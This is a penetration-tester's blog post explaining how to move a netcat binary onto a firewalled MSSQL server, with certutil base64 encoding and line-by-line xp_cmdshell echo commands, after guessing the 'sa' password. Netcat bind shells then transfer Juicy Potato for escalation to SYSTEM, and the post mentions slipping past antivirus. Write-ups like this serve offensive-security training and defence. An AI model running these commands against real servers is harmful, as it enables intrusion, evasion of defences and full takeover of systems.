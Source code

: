 ```yaml
---
layout: post
title: Exfiltrating files using MSSQL
excerpt_separator: <!--more-->
---
```


A scenario where we have to upload files to a server whose MSSQL credentials we know, having remote code execution, but the server is in other network.

<!--more-->


We have a jump server which allows us to access a Kali machine, used to scan a remote network. 

![img1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/mssql-exfiltration/image1.png)

From Kali, we see there is a MSSQL server and after guessing the credentials of the user "sa", we have RCE there. 

![img2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/mssql-exfiltration/image2.png)

However, the firewall rules make it impossible to download files from the jump server, the Kali machine or Internet:

![img3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/mssql-exfiltration/image3.png)

We have a foothold in the netwotk but the firewalls and network segmentation makes it a little difficult to continue. However, privilege escalation in this machine would be easy, as the account running the MSSQL server is a service account with the *SeImpersonatePrivilege* privilege and the OS is Windows Server 2016, being possible to escalate to SYSTEM with the Juicy Potato exploit:

![img4](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/mssql-exfiltration/image4.png)

So, how could we get a reverse shell or upload the Juicy Potato binary? If we check blogs [like this one](https://book.hacktricks.xyz/exfiltration), they mention certutil to base64-encode and then decode the files:

```
certutil -encode payload.dll payload.b64
certutil -decode payload.b64 payload.dll
```

So the idea is to encode a Windows binary, paste the content with mssqlclient.py and then decode it in the server, hopefully not triggering an antivirus, EDR or similar in the process. 

So first let's encode a Netcat binary:

```
certutil -encode nc.exe nc.txt
```

Generating a file like this one:

![img5](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/mssql-exfiltration/image5.png)

But with the mssqlclient.py script I had problems with the length of the encoded payload. However, after pasting the payload in a Linux machine, the payload can be splitted and generate commands to upload the file line by line:

```
while read p; do a=(echo $p); echo "xp_cmdshell echo $a >> c:\\\\windows\\\\tasks\\\\nc.txt"; echo; done < /tmp/nc.txt > commands.txt
```

We get a file ("commands.txt") with one command per line of the encoded payload:

![img6](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/mssql-exfiltration/image6.png)

After copying all the content of the file and pasting it in the command line with a mssqlclient.py session open, we will generate a text file in c:\windows\tasks, which can be decoded then with:

```
xp_cmdshell certutil -decode c:\windows\tasks\nc.txt c:\windows\tasks\nc.exe
```

Luckily, after uploading this file I realized that there was not any antivirus in the machine and the Windows firewall was disabled, so it was as easy as uploading the file using bind shells insted of reverse shells. So in the compromised server the command was:

```
xp_cmdshell c:\windows\tasks\nc.exe -lvp 8888 > c:\windows\tasks\juicypotato.exe
```

And from the Kali machine:

```
nc -nv 10.100.10.10 8888 < juicypotato.exe
```

With those two binaries and being able to create bind shells, it is fairly easy to become SYSTEM, for example creating a second bind shell. And with that, we would have succeded!